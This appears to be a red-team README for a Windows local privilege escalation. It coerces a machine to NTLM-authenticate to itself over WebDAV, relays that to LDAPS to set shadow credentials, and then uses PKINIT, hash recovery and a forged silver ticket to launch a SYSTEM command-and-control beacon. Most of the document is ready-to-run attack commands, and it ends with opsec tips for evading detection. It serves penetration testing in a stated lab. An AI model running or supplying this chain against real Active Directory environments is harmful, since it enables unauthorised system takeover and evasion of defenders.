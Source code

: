 # NTLMRelay2Self

## NTLMRelay2Self over HTTP (Webdav)
 
<b>An other No-Fix LPE</b>

Just a walkthrough of how to escalate privileges locally by forcing the system you landed initial access on to reflectively authenticate over HTTP to itself and forward the received connection to an HTTP listener (ntlmrelayx) configured to relay to DC servers over LDAP/LDAPs for either setting shadow credentials or configuring RBCD.

This would result in a valid kerberos TGT ticket that can be used to obtain a TGS for a service (HOST/CIFS) using `S4U2Self` by impersonating a user with local administrator access to the host (domain admin ..etc), or alternatively, it's also possible to retrieve the machine account's NTLM hash with getnthash.py and then create a silver ticket.

Lastly, use the TGS or silver ticket to spawn a system (session 0) process, this can be achieved by simply using `WMIExec` or alternatively using `SCMUACBypass` script to rely on kerberos for auth to interact with the SCM and create a service in the context of SYSTEM.

The steps below lists all the actions taken to escalate privileges locally on an up to date Windows 10 (1909) system, the cobalt strike beacon (or any other c2 agent) is running in the context of an unprivileged user `LAB\User1`. 


<b>Domain:</b> lab.local <br>
<b>DC IP:</b> 10.2.10.1 <br>
<b>Win10 IP:</b> 10.10.177.112 <br>
<b>Linux machine CS client running on:</b> 172.16.1.5 <br>

### <u>Steps:</u>


1. Start the WebClient service from an unprivileged context: <br>
    `inline-execute StartWebClientSvc.x64.o`
    `sc_query webclient`

2. On your cobalt strike beacon, setup a socks proxy and reverse port forward: <br>
`socks 5009`<br>
`rportfwd_local 80 172.16.1.5 80`

3. Check if `msDS-KeyCredentialLink` attribute is Not already set on the current `WIN10` machine account. <br>
`ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`

4. Setup the Listener on Linux system CS client is running on: <br>
`proxychains python3 ntlmrelayx.py -domain lab.local -t ldaps://10.2.10.1 --shadow-credentials --shadow-target WIN10\$`

5. Coerce the `WIN10` system to authenticate to itself to port 80 (HTTP), this requires the <u>WebClient</u> service and the <u>Printer Spooler</u> service to be running on `WIN10`::<br>
`proxychains python3 printerbug.py "lab.local/User1:Passw0rd01@10.10.177.112" wind10@80/print` <br> Alternatively, you can use PetitPotam: <br>
`python3 PetitPotam.py -u User1 -p Passw0rd01 -d lab.local WIN10@80/print 10.10.177.112`

7. If the previous two (2) steps were executed with no error, you should get a message stating shadow credentials were successfully set on the WIN10$ machine account, you can quiclky check for that using: <br>
`ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`

<br><b>The remaining steps are standard PKINIT actions to get a TGT for WIN10$, then recover the NT Hash and lastly create a silver ticket for the `HOST\WIN10` SPN: </b><br><br>

8. Request a TGT for WIN10$:<br>
 `proxychains python3 gettgtpkinit.py -cert-pfx WIN10.pfx -pfx-pass 8kX4grjUrY8gvzjrphl5 lab.local/WIN10$ WIN10.ccache`

9. `export KRB5CCNAME=/PATH_TO/WIN10.ccache`

10. Get the NT Hash:<br>
 `proxychains python3 getnthash.py -key 397eef25429f6b7249a11dfaa874df5c92bf44974b1bb962591937d656f0e827 -dc-ip 10.2.10.1 lab.local/WIN10$`

11. Create a silver ticket for the HOST SPN:<br>
 `impacket-ticketer -domain-sid S-1-5-21-81107902-1099128984-1836738286 -domain lab.local -spn HOST/WIN10.LAB.LOCAL -nthash db6484c89c273e269a23b1bdc53f7cdf -user-id 1155 Administrator`

12. Export the silver ticket for kerberos auth:<br>
 `export KRB5CCNAME=/PATH_TO/Administrator.ccache`

13. Get a SYSTEM beacon using `Wmiexec`:<br>
`proxychains4 python3 wmiexec.py -nooutput -silentcommand -dc-ip 10.2.10.1 -k -no-pass lab.local/Administrator@WIN10.LAB.LOCAL 'C:\Users\User1\Desktop\Files\mcbuilder.exe'` <br>
Or alternatively use `SCMUACBypass` script from James (@tiraniddo)


### <u>Cleanup:</u>

1. Export the TGT created in step 8:<br>
 `export KRB5CCNAME=/PATH_TO/WIN10.ccache`

2. Get the public key set on `ms-dsKeyCredentialLink` GUID:<br>
 `proxychains python3 pywhisker.py -u "WIN10$" -d "lab.local" --dc-ip 10.2.10.1 -k --no-pass --target 'WIN10$' --action "list" -vv`

3. Remove the public key set:<br>
 `proxychains python3 pywhisker.py -u "WIN10$" -d "lab.local" --dc-ip 10.2.10.1 -k --no-pass --target 'WIN10$' --action "remove" -D 97dc9d92-6d23-6031-7e1d-b5a13e305c8b`

4. Check if the public key is removed:<br>
 `ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`


### <u>Notes:</u>

* Shadow Credentials requires LDAP signing and channel binding to be disabled, you can use `LDAPRelayScan` to confirm that.
* Machine accounts are allowed to change their own LDAP attributes (Not applicable for user accounts), however keep in mind that this will only work in case if the `ms-DSKeyCredentialLink` attribute does not exist for the machine account we want to LPE on.
* LDAP Signing and Channel Binding must be disabled on the DC (typical configuration for many DC deployments)
* When Testing in a HomeLab, make sure you've:
    * Windows Server 2016 Functional Level for AD
    * A digital certificate for Server Authentication on DC.
    * Disable Windows Firewall on the Win10 system, this would not be a road block when dealing with real world organizations.

### <u>Opsec !!:</u>

- Using Ticketer for forging a silver ticket from the NT hash can be detected (ATA) by monitoring for RC4 encrypted Kerberos ticket, most modern MS environments rely on AES Kerberos encryption instead. an alternative would be to use S4U2Self to obtain a TGS ticket check `gets4uticket` from Dirk-jan.

- SCMUACBypass creates a service, can be customized to update an existing service and point it to your beacon payload instead of `cmd.exe`, `Wmiexec` doesn't create any services, that does not mean that Wmiexec with `-nooutput` and `-silentcommand` have no detections. just an opsec-safe alternative with a minimal footprint, i could be wrong though, who knows. 

- Shadow Credentials changes the `ms-DsKeyCredentialLink` only, on the other hand RBCD requires the `MachineQuota` to be set to 10 for default domain users (not always the case), plus a computer object will need to be created or have control over an existing AD joined system with an SPN set (required for delegation), then reflect it in the `AllowedToActOnBehalfOfOtherIdentity` LDAP attribute.



### <u>Refs: </u>
* `LdapRelayScan` https://github.com/zyn3rgy/LdapRelayScan
* `SCMBypassUAC` https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82
* `gets4uticket` https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py
* `impacket` https://github.com/SecureAuthCorp/impacket

### <u>Credits: </u>
Based on the research and tools/PoCs created by:
* @tifkin_
* @tiraniddo
* @_dirkjan
* @harmj0y
* @ShutdownRepo
* @topotam

